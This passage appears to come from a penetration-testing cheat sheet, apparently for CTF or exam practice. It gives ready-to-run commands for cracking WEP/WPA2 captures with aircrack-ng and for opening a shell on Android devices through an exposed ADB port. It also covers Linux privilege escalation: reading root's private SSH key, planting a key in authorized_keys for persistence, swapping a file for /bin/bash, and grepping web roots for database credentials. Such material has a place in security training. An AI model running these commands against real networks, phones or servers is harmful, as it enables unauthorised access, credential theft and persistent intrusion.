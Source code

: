 **Check Android App**<br>
www.sisik.eu/apk-tool

## 9. Cracking Wi-Fi networks<br>
**Cracking Wifi Password**<br>
aircrack-ng [pcap file] (For cracking WEP network)<br>
aircrack-ng -a2 -b [Target BSSID] -w [password_Wordlist.txt] [WP2 PCAP file] (For cracking WPA2 or other networks through the captured .pcap file)<br>

Android<br>
1- nmap ip -sV -p 5555    (Scan for adb port)<br>
2- adb connect IP:5555    (Connect adb with parrot)<br>
3- adb shell              (Access mobile device on parrot)<br>
4- pwd --> ls --> cd sdcard --> ls --> cat secret.txt (If you can't find it there then go to Downloads folder using: cd downloads)<br>

SQLMap - for finding SQL Injection Vulnerabilities<br>
Wpscan - scanning and finding issues in wordpress websites<br>
ADB - for connecting Android devices to PC and binary analysis<br>
Burpsuite - for analysing and manipulating the traffic<br>

## 10. Privilege Escalation Basics
ssh <user_name>@<IP> -p [port]<br>

to check privileges<br>
sudo -l

if there is a user with no pass:<br>
sudo -u <user> /bib/bash<br>
cd \<br>
cd /root<br>
cd .ssh<br>
cat id_rsa<br>
copy the key<br>

nano id_rsa<br>
paste the key<br>
ctrlS ctrlX<br>
chmod 600 id_rsa<br>

ssh root@<IP> -p [port] -i id_rsa<br>
*******************************<br>
ssh-keygen -t rsa<br>
cat ~/.ssh/id_rsa.pub | ssh USER@HOST "mkdir -p ~/.ssh && cat >> ~/.ssh/authorized_keys"<br>

ssh <user_name>@<IP> -p [port] -i id_rsa<br>
*******************************<br>
- 1st_file we have permission<br>
- 2nd file we do not have permission<br>

stat -c “%a %A %U %G %F” <file><br>

strings <file><br>
if the second file is there:<br>
rm <2nd_file><br>
cp /bin/bash <2nd_file><br>
/<1sr_file><br>
*******************************<br>
cd /var/www/html<br>
grep -nr “db_user”<br>
cat <link><br>
